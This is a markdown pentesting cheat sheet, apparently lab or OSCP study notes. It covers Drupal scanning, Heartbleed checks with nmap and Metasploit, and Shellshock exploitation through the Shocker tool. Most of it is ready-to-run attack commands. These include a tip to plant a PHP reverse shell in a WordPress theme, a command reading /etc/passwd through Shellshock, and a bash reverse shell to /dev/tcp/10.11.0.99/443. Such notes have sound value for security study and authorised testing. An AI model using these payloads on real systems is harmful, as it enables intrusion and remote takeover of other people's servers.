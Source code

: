 	* Appearance → editor → index.php → add a php reverse shell instead
* Drupal
	```
	droopescan scan drupal -u IP:PORT
	```
* Apache Docs are present
	* Sec Lists - Apache
	* Check other sites
	* look for Apache version vulnerability
	* TODO: Need to finish

### Heartbleed
* [Heartbleed Scanner](https://github.com/sensepost/heartbleed-poc)
* Usage: heartbleed-poc.py server [options]
* nmap --script=ssl-heartbleed -p 443
* msf > use auxiliary/scanner/ssl/openssl_heartbleed msf auxiliary(openssl_heartbleed) > show options

#### nmap 
```heartbleed
nmap -sV --script=ssl-heartbleed 192.168.101.8
```

#### metasploit
```
use auxiliary/scanner/ssl/openssl_heartbleed
```

### Shellshock 
* check with nmap
```
nmap 10.11.1.71 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/test.cgi --script-args uri=/cgi-bin/admin.cgi
```
* [Shocker](https://github.com/nccgroup/shocker)
```
python shocker.py -H 10.11.1.# --cgi /cgi-bin/admin.cgi 

//if working
/bin/cat /etc/passwd

//sometimes quitting and rerunning the command works

//if path is not set 
/bin/bash -c 'echo aaa; whoami; echo zzz'

```
* Need to get a reverse shell
	* Metasploit 
		* auxiliary/scanner/http/apache_mod_cgi_bash_env
		* exploit/multi/http/apache_mod_cgi_bash_env_exec
	```
	shell
	```
	* Manual
		* [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
	```
	/bin/bash -c 'echo aaa; bash -i >& /dev/tcp/10.11.0.99/443 0>&1; echo ccc'
	```
